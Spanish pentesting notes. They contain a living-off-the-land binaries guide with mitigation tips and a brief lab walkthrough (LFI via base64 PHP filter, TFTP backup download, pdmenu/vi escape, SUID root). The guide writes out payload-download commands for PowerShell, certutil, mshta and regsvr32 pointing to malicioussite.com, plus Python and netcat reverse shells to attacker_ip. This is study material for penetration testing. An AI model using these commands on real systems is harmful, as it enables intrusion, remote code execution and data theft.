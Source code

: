 
-----------

Aquí tienes una guía sobre el abuso de binarios específicos, que suele aplicarse en pruebas de penetración y en el ámbito de la ciberseguridad ofensiva. Este enfoque implica aprovechar binarios legítimos en el sistema (normalmente en sistemas operativos Windows y Linux) para ejecutar acciones maliciosas, eludiendo así controles de seguridad que confían en binarios autorizados. A continuación se detalla en qué consiste y cómo se suele realizar en cada sistema:

---

### 1. ¿Qué es el abuso de binarios específicos?

El abuso de binarios específicos (o _Living Off The Land Binaries_ - LOLBins en inglés) consiste en utilizar binarios confiables que ya están presentes en el sistema operativo para realizar actividades maliciosas. Esto permite:

- Evadir las soluciones de seguridad (como antivirus o EDR).
- Aprovechar permisos y funcionalidades de binarios que ya están aprobados por el sistema.
- Minimizar la huella de herramientas externas en el sistema objetivo.

### 2. Binarios comunes en Windows

En Windows, se utilizan binarios específicos para ejecutar comandos o scripts que permitan persistencia, exfiltración de datos, ejecución de código y escalamiento de privilegios. Algunos binarios destacados son:

- **PowerShell**: Herramienta avanzada que permite ejecución de comandos, scripts, y administración remota. Puede ser utilizada para descargar y ejecutar payloads maliciosos:
    
    
    `powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://malicioussite.com/script.ps1')"`
    
- **Certutil**: Utilizada para manipular certificados, pero también puede descargar archivos:
    
    `certutil -urlcache -split -f http://malicioussite.com/payload.exe`
    
- **Mshta**: Ejecuta aplicaciones HTML, pero también puede ejecutar código JavaScript o VBScript:
    

    
    `mshta http://malicioussite.com/script.html`
    
- **Regsvr32**: Ejecuta bibliotecas de enlace dinámico (DLLs) y puede cargar contenido malicioso desde Internet:
    
    
    `regsvr32 /s /n /u /i:http://malicioussite.com/payload.sct scrobj.dll`
    
- **Wmic**: Permite ejecutar scripts y acceder a información del sistema, útil para movimientos laterales o ejecución de comandos remotos.

### 3. Binarios comunes en Linux

En Linux, también existen binarios que, al ser legítimos, se pueden utilizar con fines maliciosos. Algunos de ellos son:

- **Python/Perl**: Se puede usar para ejecutar shells inversas o scripts maliciosos. Ejemplo en Python:
    
    
    `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`
    
- **Sudo**: Algunos programas configurados para ejecutarse con privilegios elevados (mediante `sudo`) pueden explotarse para ganar acceso privilegiado.
- **Crontab**: Configuraciones de cronjob pueden manipularse para mantener persistencia en el sistema.
- **Socat/Netcat**: Son binarios para transferencia de datos que permiten conexiones remotas, útiles para crear shells reversas:
    
    
    `nc -e /bin/sh attacker_ip 4444`
    
- **Find**: Al tener permisos elevados, el comando `find` puede usarse para ejecución arbitraria:
    
    `find . -exec /bin/sh -i \;`
    

### 4. Casos de uso en pruebas de penetración

Para realizar pruebas de penetración o simulaciones de ataque, los siguientes escenarios son comunes:

1. **Persistencia**: Usar binarios como `schtasks` en Windows para configurar tareas programadas que se ejecutan con regularidad, o cronjobs en Linux.
2. **Escalación de privilegios**: Algunos binarios pueden aprovechar configuraciones incorrectas de permisos o `sudo` para escalar privilegios.
3. **Movimientos laterales**: Con herramientas como `wmic` en Windows o `ssh` en Linux para acceder a otros sistemas en la red.
4. **Exfiltración de datos**: Binarios como `curl` y `scp` en Linux o `certutil` en Windows pueden enviar datos a un servidor controlado por el atacante.

### 5. Recomendaciones de seguridad

Para mitigar el abuso de binarios específicos:

- **Monitoreo y restricciones**: Limitar el uso de binarios específicos y monitorear su uso en sistemas críticos.
- **Control de acceso**: Restringir el acceso a ciertos binarios mediante listas de control de acceso (ACL) o herramientas de control de aplicaciones.
- **Alertas de seguridad**: Configurar alertas en herramientas EDR para detectar ejecuciones sospechosas de binarios específicos.
	- **Actualización de sistemas**: Parchear binarios críticos para reducir el riesgo de abuso a través de vulnerabilidades conocidas.

---------
Primeramente Realizamos un escaneo de nmap com el de rutina 

Segun lo siguiente verficamos el apuntado a difernetes archivos php 

![[Pasted image 20241028202741.png]]

De la siguiente forma podemos encodear en base 64 toda la infromacion de la pagina referente en el php de ña url 


![[Pasted image 20241028202831.png]]

Una ves viendo eso vemos que podemos apuntar al archivo etc/passwd:

![[Pasted image 20241028203034.png]]

y vemos que hay un script de bash en backup 

![[Pasted image 20241028203106.png]]

Se puede descargar via tftp, protocolo de trasnferencia simple similiar a ftp, Por defecto opera en el puerto 69

y de la siguiente manera nos podemos conectar a l a maquina y descargar el comprimido del backup 

![[Pasted image 20241028203247.png]]

Las contraseñas publicas no tienen sentido en la conexion ssh porque despues pediran la constraseña priemramente se deben usar un aclave privada valida que no pida una contraseña para el acceso 

Una ves entremos vemos que el usuario al que entrsmos tiene una shell diferente llamda pdmenu que nos permite la ediccion de archivos, vamos a gtfgobins para encontrar un binario especifico que nos ayude en la explotacion

Esto en el editor de vi 

![[Pasted image 20241028203828.png]]

![[Pasted image 20241028203905.png]]

![[Pasted image 20241028203918.png]]

Y posteriormente ya estariamos en una bash 

Luego buscamos por ardhivos suid y buscamos un exploit en searchploit y posteriormente ya estariamos como root

Para el siguiente laboratorio de practica deberiamos instalar gdb y peda, la primera con un apt install y la segunda desde un respositorio de github 

Esto se enlaza con [[BUFFER OVERFLOW]] que respecta explotar la cantidad de tamaño programado con mas cantidad de caracteres rompiendo los bytes asignados y podiedno vulnerar la maquina 




